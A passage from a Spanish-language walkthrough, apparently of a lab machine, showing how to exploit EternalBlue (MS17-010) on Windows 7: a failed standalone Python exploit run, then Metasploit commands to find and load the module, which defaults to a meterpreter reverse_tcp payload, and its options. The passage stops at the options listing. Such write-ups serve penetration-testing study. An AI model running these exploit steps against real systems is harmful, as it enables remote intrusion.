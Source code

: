 Y tampoco funcionó la versión que tiene Kali en su BD: **Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)**.

Que, de igual forma, aquí hay un blog que explica cómo usarlo:
* <a href="https://github.com/AnikateSawhney/Pwning_Blue_From_HTB_Without_Metasploit" target="_blank">Repositorio de AnikateSawhney: Pwning_Blue_From_HTB_Without_Metasploit</a>

Parece que el error común, es que no puede utilizar ninguna de las **named pipes** para aplicar el Exploit:
```bash
python eternalBlue.py 192.168.1.10
Target OS: Windows 7 Home Basic 7601 Service Pack 1
Not found accessible named pipe
Done
```
O también puede indicar que no se pudo obtener acceso o en el peor caso, crashea la máquina víctima, haciendo que se reinicie.

Caso contrario con la versión de **Metasploit Framework**, que vamos a usar a continuación.

Sigue los pasos:
* Inicia **metasploit**:
```bash
msfconsole -q
[*] Starting persistent handler(s)...
msf6 >
```

* Busca el Exploit de **Eternal Blue**:

```bash
msf6 > search eternalblue

Matching Modules
================
   #   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
...
...
...
```

* Usa el siguiente módulo `exploit/windows/smb/ms17_010_eternalblue` y ve las opciones que necesita el Exploit:

```bash
msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


```
